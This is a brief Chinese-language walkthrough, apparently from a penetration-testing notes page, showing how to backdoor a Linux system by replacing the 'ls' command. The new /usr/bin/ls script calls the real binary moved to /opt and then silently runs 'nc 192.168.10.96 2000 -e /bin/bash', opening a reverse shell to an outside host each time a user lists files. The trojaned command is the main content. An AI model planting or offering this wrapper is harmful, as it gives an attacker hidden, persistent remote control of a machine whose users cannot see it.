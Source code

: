 ![image-20220410105554376](../../images/image-20220410105554376.png)

![image-20220410105656163](../../images/image-20220410105656163.png)

ls原本的内容

![image-20220410105718721](../../images/image-20220410105718721.png)

新建ls文件

```
vi ls
cat ls
```

新ls命令内容：

```
#!/bin/bash
/opt/ls $*
nc 192.168.10.96 2000 -e /bin/bash >/dev/null 2>&1
```

![image-20220410111325345](../../images/image-20220410111325345.png)

将原本的ls文件移动到/opt目录中，并将新ls文件移动到/usr/bin下
